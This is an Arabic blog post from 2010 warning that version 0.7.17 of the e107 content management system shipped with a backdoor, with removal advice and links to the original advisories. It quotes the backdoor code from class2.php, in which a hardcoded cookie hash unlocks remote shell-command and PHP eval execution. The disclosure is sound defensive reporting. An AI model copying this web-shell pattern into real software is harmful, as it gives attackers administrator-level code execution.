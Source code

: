 ```yaml
---
author: يوغرطة بن علي (Youghourta Benali)
date: 2010-01-27 12:37:13+00:00
draft: false
title: اكتشاف Backdoor في آخر إصدار من نظام إدارة المحتوى e107
type: post
url: /2010/01/%d8%a7%d9%83%d8%aa%d8%b4%d8%a7%d9%81-backdoor-%d9%81%d9%8a-%d8%a2%d8%ae%d8%b1-%d8%a5%d8%b5%d8%af%d8%a7%d8%b1-%d9%85%d9%86-%d9%86%d8%b8%d8%a7%d9%85-%d8%a5%d8%af%d8%a7%d8%b1%d8%a9-%d8%a7%d9%84%d9%85/
categories:
- Open source
- Security
- Web
tags:
- backdoor
- cms
- e107
---
```


[**اكتشاف Backdoor في آخر إصدار من نظام إدارة المحتوى e107**](https://www.it-scoop.com/2010/01/%d8%a7%d9%83%d8%aa%d8%b4%d8%a7%d9%81-backdoor-%d9%81%d9%8a-%d8%a2%d8%ae%d8%b1-%d8%a5%d8%b5%d8%af%d8%a7%d8%b1-%d9%85%d9%86-%d9%86%d8%b8%d8%a7%d9%85-%d8%a5%d8%af%d8%a7%d8%b1%d8%a9-%d8%a7%d9%84%d9%85/)




إذا كنت من هواة أنظمة إدارة المحتوى أو ما يعرف اختصارا بـ CMS و كنت أحد مستعملي نظام e107 فإنه يستحسن أن تتحقق من آخر إصدار من نظام e107 حيث أن تحاليل أثبتت احتواءه على Backdoor.




[](https://www.it-scoop.com/2010/01/%d8%a7%d9%83%d8%aa%d8%b4%d8%a7%d9%81-backdoor-%d9%81%d9%8a-%d8%a2%d8%ae%d8%b1-%d8%a5%d8%b5%d8%af%d8%a7%d8%b1-%d9%85%d9%86-%d9%86%d8%b8%d8%a7%d9%85-%d8%a5%d8%af%d8%a7%d8%b1%d8%a9-%d8%a7%d9%84%d9%85/)




حيث نصح Bogdan Calin العامل لدى Acunetix بتجنب استعمال  الإصدار 0.7.17 التي صدرت حديثا لأنها تحوي الشيفرة التالية:





<blockquote>

> 
> 

> 
> if(md5($_COOKIE['access-admin']) == "cf1afec15669cb96f09befb7d70f8bcb") {
> 
> 

> 
> ...
> 
> 

> 
> if(!empty($_POST['cmd'])){
$out = execute($_POST['cmd']);
}
> 
> 

> 
> elseif(!empty($_POST['php'])){
ob_start();
eval($_POST['php']);
$out = ob_get_contents();
ob_end_clean();
}
> 
> 
</blockquote>




في الملف _class2.php_ .




و هو ما يعني استعمال لـ Cookie ثابت يسهل عملية اختراق النظام و الحصول على صلاحيات المدير.




من المرجح أن سبب وجود الـ Backdoor هو تعرض أحد الخوادم التي يُحمَّل منها النظام إلى تغيير في المحتوى.




إذا كنت تستعمل هذا النظام و كنت قد نصبت هذا الإصدار، كل ما عليك هو حذف الشيفرة المبنية أعلاه من الملف المصاب، أو إعادة تحميل النظام من جديد و الذي تم تصحيح الخلل فيه.




يمكن الإطلاع على تفاصيل الثغرة من [هنا](http://lists.grok.org.uk/pipermail/full-disclosure/2010-January/072688.html) و [هنا](http://seclists.org/bugtraq/2010/Jan/217)




-   هل تستعمل أنظمة إدارة المحتوى بصفة عامة و نظام e107 خاصة ؟




-   هل أنت من مؤيدي أنظمة أدارة المحتوى؟ أم تفضل كتابة جميع صفحات موقعك من الصفر؟
